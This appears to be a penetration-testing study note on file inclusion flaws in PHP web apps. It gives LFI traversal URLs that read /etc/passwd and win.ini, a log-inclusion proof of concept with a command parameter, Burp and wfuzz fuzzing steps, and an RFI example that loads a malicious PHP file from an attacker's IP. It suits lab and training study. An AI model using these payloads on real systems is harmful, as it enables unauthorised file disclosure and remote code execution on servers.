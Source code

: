 ```yaml
---
description: A common vulnerability found in PHP web apps
---
```


# File Inclusion Vulnerabilities

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion" %}

## Local File Inclusion (LFI)

* The LFI attack is where an attacker can trick the web app into exposing or running files on the web server
* Attempt dot-dot-slash attack to ensure the attack is possible

Example: http://htb.local/?page=../../../../../../test.txt

### PoC

```
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

### Bruteforcing LFI via directory

* Obtain a GET request in burp
* Send to Intruder
* Attack type set to Sniper

Example on where to place payload:

```
GET /admin/?|PAYLOADHERE|= HTTP/2
```

* Click the add button on the right side and make sure that the payload character is between the field where the two pipes are
* Go to payloads > Load > SecLists > Discovery > Web-Content > raft-small-words.txt
* Click start attack
* Make sure to order by the largest length as that will be what you need to focus on

### Fuzzing

* This section is for if you found something from bruteforcing for LFI

```
GET /admin/?debug=|fasfoaj|
```

* Place the payload characters in between the pipes
  * Remember, the pipes are the payload characters in burp, you need to manually add this
* Go to payloads > SecLists > LFI > LFI-jhaddix.txt
* Select start attack and organize by largest length again

Example of LFI:

```
http://10.10.10.1/admin/?debug=../../../../../windows/win.ini

http://10.10.10.1/admin/?debug=../../../../../etc/passwd
```

Wfuzz:

```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hh <common number> <URL>
```

## Apache Log Poisoning

* If you can include an Apache log file through LFI, you can often inject PHP to the logs and execute that PHP using the LFI
* These logs can be stored in a variety of places
* Do more research on where these places can be

## LFI 2 RCE

{% embed url="https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/" %}

## Remote File Inclusion (RFI)

* Similar to an LFI but a remote file can be included and served to execute server-side code

Example:

http://htb.local/?page=http://\<kali_IP:8000>/maliciou_s\_file.php

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
